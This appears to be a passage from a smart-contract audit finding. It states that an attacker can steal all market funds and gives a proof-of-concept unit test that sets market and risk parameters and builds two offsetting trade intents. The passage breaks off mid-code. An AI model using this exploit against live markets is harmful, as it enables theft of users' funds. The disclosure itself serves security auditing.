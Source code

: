 ### Impact
All market funds are stolen by the Attacker.

### PoC
Add to `test/unit/Market.test.ts` in the `invariant violations` context:
```solidity
it('withdraw fees', async () => {
  const riskParameter = { ...(await market.riskParameter()) }
  riskParameter.margin = parse6decimal('0.012')
  riskParameter.maintenance = parse6decimal('0.01')
  riskParameter.minMargin = parse6decimal('5')
  riskParameter.minMaintenance = parse6decimal('5')
  await market.updateRiskParameter(riskParameter)

  const marketParameter = { ...(await market.parameter()) }
  marketParameter.takerFee = parse6decimal('0.003')
  await market.updateParameter(marketParameter)

  factory.parameter.returns({
    maxPendingIds: 5,
    protocolFee: parse6decimal('0.50'),
    maxFee: parse6decimal('0.01'),
    maxLiquidationFee: parse6decimal('1000'),
    maxCut: parse6decimal('0.50'),
    maxRate: parse6decimal('10.00'),
    minMaintenance: parse6decimal('0.01'),
    minEfficiency: parse6decimal('0.1'),
    referralFee: parse6decimal('0.20'),
    minScale: parse6decimal('0.001'),
    maxStaleAfter: 14400,
  })

  const intent = {
    amount: parse6decimal('0.3'),
    price: parse6decimal('123'),
    fee: parse6decimal('0.5'),
    originator: liquidator.address,
    solver: liquidator.address,
    collateralization: parse6decimal('0.01'),
    common: {
      account: user.address,
      signer: user.address,
      domain: market.address,
      nonce: 0,
      group: 0,
      expiry: 0,
    },
  }

  const intent2 = {
    amount: -parse6decimal('0.3'),
    price: parse6decimal('123'),
    fee: parse6decimal('0.5'),
    originator: liquidator.address,
    solver: liquidator.address,
    collateralization: parse6decimal('0.01'),
    common: {
      account: user.address,
      signer: user.address,
      domain: market.address,
      nonce: 1,
      group: 0,
      expiry: 0,
```
